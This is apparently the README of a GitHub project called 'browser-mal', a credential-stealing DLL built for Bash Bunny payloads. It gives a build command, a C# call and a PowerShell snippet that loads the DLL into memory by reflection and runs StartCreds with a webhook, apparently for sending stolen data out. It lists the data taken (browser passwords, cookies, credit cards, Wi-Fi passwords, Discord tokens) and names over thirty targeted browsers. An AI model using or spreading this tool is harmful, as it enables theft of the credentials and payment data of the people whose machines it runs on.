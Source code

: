 # browser-mal
This was made to be used with bash bunny for experimenting with payloads.
Please do not use for illegal activities.

## Merge Dll's

```
ILMerge.exe /out:browser.mal.dll BrowserMal.dll BouncyCastle.Crypto.dll Newtonsoft.Json.dll 
```

## Usage
```csharp
BrowserMal.Class1.StartCreds(<webhook>, extractWifi: true);
```

```powershell
$bytes = [System.IO.File]::ReadAllBytes("PATH TO DLL")
$assembly = [System.Reflection.Assembly]::Load($bytes)

$entryPointMethod = $assembly.GetTypes().Where({ $_.Name -eq 'Class1' }, 'First').GetMethod('StartCreds', [Reflection.BindingFlags] 'Static, Public, NonPublic')

$entryPointMethod.Invoke($null, @('WEBHOOK', $true))
```

## Functionality
- Extracts passwords, cookies, credit cards and addresses from gecko and chromium based browsers.
- Extracts saved wifi passwords.
- Extracts discord tokens.

## Browsers supported

- Chrome
- Opera
- Yandex
- 360 Browser
- Comodo Dragon
- CoolNovo
- SRWare Iron
- Torch Browser
- Brave Browser
- Iridium Browser
- 7Star
- Amigo
- CentBrowser
- Chedot
- CocCoc
- Elements Browser
- Epic Privacy Browser
- Kometa
- Orbitum
- Sputnik
- uCozMedia
- Vivaldi
- Sleipnir 6
- Citrio
- Coowon
- Liebao Browser
- QIP Surf
- Edge Chromium
- Firefox Developer
- SeaMonkey
- Firefox Nightly
- Waterfox
- Mozilla Thunderbird
- Pale Moon